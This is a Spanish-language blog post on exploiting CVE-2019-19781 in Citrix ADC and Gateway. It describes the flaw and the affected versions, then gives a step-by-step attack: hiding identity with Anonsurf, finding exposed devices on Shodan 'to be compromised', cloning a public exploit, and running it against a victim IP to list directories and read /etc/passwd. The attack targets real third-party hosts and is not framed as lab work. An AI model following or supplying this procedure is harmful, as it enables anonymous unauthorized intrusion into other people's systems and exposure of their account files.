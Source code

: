 ```yaml
---
layout: single
title: Explotación de CVE-2019-19781 - Vulnerabilidades
excerpt: "Una vulnerabilidad de cruce de directorio de Citrix Application Delivery Controller (ADC) y Gateway, que puede llevar a la ejecución remota de código sin credenciales."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png
  teaser_home_page: true
  icon: /assets/images/citrix.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2019-19781
  - Citrix
  - Shodan
  - exploit-db
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png)

## Descripción

La vulnerabilidad CVE-2019-19781 corresponde con un ataque de directorio transversal que permitía a un atacante ejecutar de forma remota código arbitrario en varias versiones de los productos ADC y Gateway de Citrix, así como en versiones antiguas de Citrix SD-WAN WANOP.

Está valorada como crítica, con una puntuación de 9.8 y fue descubierta por el investigador Mikhail Klyuchnikov, trabajador de la empresa Positive Technologies, quien reportó de manera ética la incidencia siguiendo el procedimiento de publicación responsable aplicable en estos casos.

•	Tipo: Limitación incorrecta de nombre de ruta a un directorio restringido (Path Traversal)

•	Gravedad: Alta

•	Fecha publicación: 27/12/2019

•	Última modificación: 08/01/2020

# Productos Afectados:

•	Citrix ADC y Citrix Gateway versión 13.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.1 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 11.1 todas las compilaciones compatibles

•	Citrix NetScaler ADC y NetScaler Gateway versión 10.5 todas las compilaciones compatibles
 
# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197811.png)

Buscamos en la página Expoit Database, un exploit referente a la vulnerabilidad.

•	https://www.exploit-db.com/

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197812.png)

En la página de Shodan buscamos equipos con esta vulnerabilidad para ser vulnerados.

•	https://www.shodan.io/

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197813.png)

Se realiza la clonación del repositorio del exploit desde la página de GitHub.

•	Git clone https://github.com/projectzeroindia/CVE-2019-19781

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197814.png)

Ingresamos al directorio del Exploit descargado.

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197815.png)

Dentro del directorio ejecutamos el siguiente comando.

•	python3 cve-2019-19781_scanner.py <IP DE LA VICTIMA> <PUERTO>

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197816.png)

Finalmente se evidencia que fue vulnerable y lista los directorios del dispositivo.

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197817.png)

Probamos ejecutando otro comando.

•	bash CVE-2019-19781.sh <IP VICTIMA> 'cat /etc/passwd'

![](/assets/images/vulnerabilidades/cve-2019-1978/cve-2019-197818.png)




